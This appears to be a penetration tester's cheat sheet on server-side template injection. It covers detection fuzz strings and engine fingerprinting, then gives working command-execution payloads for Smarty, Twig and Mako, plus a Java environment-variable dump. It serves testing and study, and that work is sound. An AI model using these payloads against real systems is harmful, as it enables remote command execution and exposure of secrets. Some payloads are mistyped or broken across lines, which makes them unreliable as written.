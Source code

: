  # SSTI
 ## Detection
You can follow a similar approach when looking for template / expression language injections to the one you use when testing an application for stored XSS vulnerabilities - injecting a payload and looking for occurrences of it within the application

> If you are a user of Burp Suite Pro, you should get an extension named J2EE Scan which automatically adds tests for expression language injection

- Try  fuzzing Templating special charchters and see if any exception is raised 
	```
	${{<%[%'"}}%\
	${}
	{{}}
	<%= %>
	${7/0}
	{{7/0}}
	<%= 7/0 %>
	${foobar}
	{{foobar}}
	<%= foobar %>
	${7/0}
	{{7/0}}
	```

- Try to check if it contains a direct XSS vulnerability. Try injecting arbitrary HTML.
	```
	http://vulnerable-website.com/?greeting=data.username<tag>
	```
	In the absence of XSS, this will usually either result in a blank entry in the output (just Hello with no username), encoded tags, or an error message. 
	
- Try and break out of the statement using common templating syntax and attempt to inject arbitrary HTML after it
	```
	http://vulnerable-website.com/?greeting=data.username}}<tag>
	```
if the output is rendered correctly, along with the arbitrary HTML, this is a key indication that a server-side template injection vulnerability is present:
	
## Identify Technology
To better identify the technology, you can first:
- Observe which is the generic technology of the application. If it is java (e.g., you see it uses .jsp extensions), then you can suspect it is an expression language / OGNL.
- Use this diagram as it contains popular behavior of template engines when handling expressions.
![[Pasted image 20210602032331.png]]
- Try to inject unclosed curly braces (be careful as there is a chance you might permanently disable the attacked webpage); this might provoke verbose error disclosing the underlying technology.
- Observe other verbose errors for technology names.
- If you suspect a specific technology, Check documentation for functions specific to that technology such as PHP Twig. Php Twig Can be confirmed by
```php
{{_self.env.display("xyz")}}
```

Another Methodology is:
Although there are a huge number of templating languages, many of them use very similar syntax that is specifically chosen not to clash with HTML characters. As a result, it can be relatively simple to create probing payloads to test which template engine is being used.

Simply submitting invalid syntax is often enough because the resulting error message will tell you exactly what the template engine is, and sometimes even which version.

For example, the invalid expression `<%=foobar%>` triggers the following response from the Ruby-based ERB engine:

```ruby
(erb):1:in `<main>': undefined local variable or method `foobar' for main:Object (NameError)
from /usr/lib/ruby/2.5.0/erb.rb:876:in `eval'
from /usr/lib/ruby/2.5.0/erb.rb:876:in `result'
from -e:4:in `<main>'
```


## Exploitation



## Exploiting Technology Specific SSTIs
### PHP
#### Smarty
```php
{php}echo `id`;{/php}
```

#### Twig
```php
{{_self.env.registerUndefinedFilterCallback("system")}}{{_s
elf.env.getFilter("whoami")}}
```

### Python
#### Maki
```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

#### Django
Explore the enviorment with
```python
{% debug %}
```

### Read about the security implications in documentation
In addition to providing the fundamentals of how to create and use templates, the documentation may also provide some sort of "Security" section. The name of this section will vary, but it will usually outline all the potentially dangerous things that people should avoid doing with the template. This can be an invaluable resource, even acting as a kind of cheat sheet for which behaviors you should look for during auditing, as well as how to exploit them.

Even if there is no dedicated "Security" section, if a particular built-in object or function can pose a security risk, there is almost always a warning of some kind in the documentation. The warning may not provide much detail, but at the very least it should flag this particular built-in as something to investigate.

### Explore enviroment objects
At this point, you might have already stumbled across a workable exploit using the documentation. If not, the next step is to explore the environment and try to discover all the objects to which you have access.

Many template engines expose a "self" or "environment" object of some kind, which acts like a namespace containing all objects, methods, and attributes that are supported by the template engine. If such an object exists, you can potentially use it to generate a list of objects that are in scope. For example, in Java-based templating languages, you can sometimes list all variables in the environment using the following injection:

```java
${T(java.lang.System).getenv()}
```

### Developer-supplied objects
Websites will contain both built-in objects provided by the template and custom, site-specific objects that have been supplied by the web developer. Pay particular attention to these non-standard objects because they are especially likely to contain sensitive information or exploitable methods. As these objects can vary between different templates within the same website, be aware that you might need to study an object's behavior in the context of each distinct template before you find a way to exploit it.

